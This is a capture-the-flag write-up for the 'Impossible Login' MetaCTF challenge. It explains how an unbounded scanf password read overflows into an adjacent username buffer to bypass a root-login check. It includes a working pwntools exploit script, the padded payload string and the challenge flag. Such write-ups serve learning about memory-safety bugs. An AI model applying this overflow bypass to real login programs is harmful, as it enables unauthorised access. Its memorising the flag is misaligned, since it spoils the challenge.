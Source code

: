 # Impossible Login - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ImpossibleLogin.gif)

---

## Challenge Summary

The goal is to log in as `root`, which is normally blocked. Due to a stack overflow in the `password` input, it's possible to overwrite the `username` variable and bypass the restriction. By padding the password with `root` at the right offset, the program accepts the login and reveals the `root` flag.

## Binary Information

```bash
$ file logmein
```

![Alt text](img/2.png)

```bash
$ pwn checksec logmein
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

In IDA Pro, the `main` function performs the following:

- Prompts for a **username** using `scanf("%s", username)` into a 24-byte buffer.
- If the input equals `"root"`, login is denied via `strncmp(username, "root", 4)`.
- Then prompts for a **password**, read into a 32-byte buffer (`scanf("%s", password)`).
- Both variables are stored on the stack; `username` is located just after `password`.
- The `login()` function compares the input credentials to a list stored in a global array `creds[]` using `strncmp()`.

![Alt text](img/4.png)

![Alt text](img/5.png)

Because `scanf` does not enforce length restrictions, inputting a long password overflows into `username`, allowing us to spoof `"root"` even if the original username wasn't `"root"`. The comparison uses `strncmp()` with the real length of `user/pass`, so partial matches suffice. If credentials match, `motd()` prints a personalized flag.

![Alt text](img/6.png)

---

## Exploit Strategy

1. **Username:** Can be any value (e.g., `junk`), as it’s not checked critically.

2. **Password Overflow:**

   - Overflow the `password` buffer (32 bytes) to overwrite the `username` buffer with `"root"`.
   - The password should be `"cant_guess_this"` followed by padding to write `"root"` into the `username`.

3. **Payload:**

   - Username: `junk`
   - Password: `cant_guess_thisAAAAAAAAAAAAAAAAAroot`

4. **Flag Retrieval:**

   - Once `"root"` is set as the username, the `motd()` function displays the root user's flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template logmein --host host5.metaproblems.com --port 5045
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'logmein')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5045)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'junk')

root_password = b'cant_guess_this'
padding = b'A' * 17
root_username = b'root'

payload = flat (
        root_password,
        padding,
        root_username
)

io.sendline(payload)
io.recvuntil(b'Here is your personalize flag: ')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/7.png)

---

## Vulnerability Summary

The program uses **unsafe input handling** with `scanf()` for both the username and password, which are vulnerable to **buffer overflow** attacks. The username input is checked for the string "root" and causes an early exit if matched, but the **password** input buffer (32 bytes) can be overflowed to overwrite the username buffer. This allows an attacker to **force the username to "root"** by crafting a specially padded password, effectively bypassing the login check and retrieving the root flag.

---

## Flag

```
MetaCTF{P@ssw0rDS_r_0pti0n4l}
```
